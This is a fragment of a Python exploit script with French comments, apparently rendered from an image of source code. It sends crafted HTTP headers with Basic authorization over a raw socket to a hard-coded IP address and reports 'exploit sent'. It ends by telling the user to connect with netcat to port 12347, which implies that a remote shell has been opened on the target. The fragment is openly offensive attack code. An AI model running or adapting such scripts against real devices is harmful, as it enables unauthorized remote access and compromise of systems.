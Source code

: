 ```python
s.send("Accept-Language: en-US,en;q=0.5\n") 
s.send("Accept-Encoding: gzip, deflate\n")
s.send("Referer: http://132.147.82.80/\n")
s.send("Authorization: Basic <Encoded password>\n")
s.send("Connection: keep-alive\n\n")

print("[+] Exploit envoyé !")

# =============================================================================
# RÉCEPTION DE LA RÉPONSE
# =============================================================================

print("[*] Attente de la réponse...")
try:
    data = s.recv(1000000)
    print("[+] Réponse reçue:")
    print(data)
except:
    print("[!] Pas de réponse (normal si l'exploit fonctionne)")

s.close()
print("[*] Connexion fermée")
print("[*] Si l'exploit fonctionne, connectez-vous avec: nc 192.168.1.4 12347")
```
{% endcode %}
